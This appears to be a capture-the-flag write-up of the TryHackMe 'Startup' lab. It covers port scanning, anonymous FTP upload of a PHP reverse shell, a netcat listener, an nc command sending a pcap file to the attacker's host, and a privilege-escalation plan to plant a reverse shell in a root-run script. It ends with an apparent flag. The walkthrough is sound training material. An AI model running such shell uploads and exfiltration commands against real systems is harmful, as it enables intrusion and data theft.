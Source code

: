 
[Play](https://tryhackme.com/room/startup)

## 1. Enumeration & Scanning
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[/tmp]
└─$ nmap -sC -sV -A 10.10.109.61
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:31 EDT
Nmap scan report for 10.10.109.61
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.8.150.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.09 seconds
```

Anonymous login allowed ... why?

### 1.2 FTP 

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.109.61  
Connected to 10.10.109.61.
220 (vsFTPd 3.0.3)
Name (10.10.109.61:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> get notice.txt
...
ftp> get important.jpg
...
ftp> cd ftp
...
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
226 Directory send OK. 
```

The `ftp` directory was empty. Let's look at the other two files.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

![The important.jpg image, which is an AmongUs meme](https://i.imgur.com/UEd15ea.png)

One interesting thing to note is that the `ftp` directory is also writable.


### 1.3 Web Enumeration & Exploration

![A screenshot of the website's intial page](https://i.imgur.com/xPZaCyo.png)

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -a R -u 10.10.109.61 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/files                (Status: 301) [Size: 312] [--> http://10.10.109.61/files/]
```

Going to the web page, we see that all of these files are hosted, which were present in ftp port. This includes the image and the notice. Recall that `ftp` is also writeable. Its very clear now that we have to upload a reverse shell.


### 1.4 Reverse Shell
Now, the question is, of what? php? Well going to `http://10.10.109.61/index.php` leads me to a "Not Found" page. Uh ... perl or something?

Let's try php rev shell anyways. Use [revshells](https://www.revshells.com/) and get one for yourself. `put` the file in `/ftp` folder. Start netcat on your specified port and ip.

## 2. Foothold
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52074
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:53:18 up 24 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1233): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ 
```

And we are in!

I tried `cd`-ing into the user, but to no avail. The ssh keys are also in palce. What to do? Hint says to look for something sus. 

### 2.1 Exploration
We find a folder named incidents. It has a single pcapng file, suspicious.pcapng. I checked if the machine has netcat, and it does. So, let's transfer the file and go in detail.


On attacked machine:
```
www-data@startup:/incidents$ nc 10.8.150.214 1337 < suspicious.pcapng   
```

On your machine:
```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1337 > sus.pcapng  
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.109.61] 52080
```

Looking around in the file, we have the passowrd hidden somewhere. Try finding it XD

### 2.2 SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh lennie@10.10.109.61
...
$ bash -i
lennie@startup:~$ 
```

And we are in (stably) :D

## 3. PrivEsc
I tried `lennie@startup:/$ file / -type f -perm -u=s 2>/dev/null`, which have empty results.

The `sudo -l` command does not work either.
```
lennie@startup:/$ sudo -l
sudo: unable to resolve host startup
[sudo] password for lennie: 
Sorry, user lennie may not run sudo on startup.
lennie@startup:/$ 
```

I checked the crontab, also not very interesting
```
lennie@startup:~/scripts$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
lennie@startup:~/scripts$ 
```

Looking at the `/scripts/` folder, we have some scripts lying around. I tried running the planner, and it printed out "done". 

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

The startup_list is empty. Moreover running the script again shows `planner.sh: line 2: /home/lennie/scripts/startup_list.txt: Permission denied`

This means we have two options. Make some use of `$LIST` or explore `/etc/print.sh`. Since we don't have permissions, 
```
lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 May 18 11:33 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 May 18 11:34 startup_list.txt
```
let's first look at `/etc/print.sh`.

```
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

We have permissions to edit this file, 
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 May 18 11:33 /etc/print.sh
```

This means that we can put a reverse shell in here ... and hope for the best.

c4ntg3t3n0ughsp1c3